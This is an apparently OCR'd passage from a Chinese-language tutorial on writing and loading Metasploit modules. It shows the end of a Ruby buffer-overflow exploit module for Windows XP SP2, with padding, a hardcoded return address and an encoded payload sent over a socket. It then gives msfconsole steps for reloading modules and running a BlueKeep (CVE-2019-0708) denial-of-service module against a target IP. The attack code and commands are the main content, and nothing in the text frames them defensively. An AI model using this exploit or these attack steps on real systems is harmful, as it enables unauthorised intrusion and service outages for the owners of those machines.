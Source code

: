 ```rb
      'Name'           => 'security test',
      'Description'    => %q{
          This module exploits a buffer overflow.
      },
      'Author'         => 'fwd',
      'License'        => MSF_LICENSE,
      'Privileged'     => true,
      'Payload'        =>
        {
          'Space'    => 300,
          'BadChars' => "\x00",
        },
      'Platform' 		  => 'win',
      'Targets'        =>
        [
          [ 'Windows XP Pro SP2 English',           { 'Ret' => 0x7c809f83 } ],
        ]))
  end
 
  def exploit
    connect
    attack_buf =  'a'*200
    attack_buf += [target.ret].pack('V')
    attack_buf += payload.encoded
    sock.put(attack_buf)
    handler
    disconnect
  end
end
root@kali:/usr/share/metasploit-framework/modules/exploits/fwdtest#
```
### 然后启动msf
输入你的路径然后摁`tab`就行了(不能tab就是有猫病)
```
use exploit/jojo/xxxxx
```


输入
```
reload_all              \\重新加载所有模块
```

然后启动模块开始攻击
```
use exploit/jojo/cve_2019_0708_bluekeep_dos 

info

set rhosts 192.168.100.86(目标IP)

set verbose true 

run
```
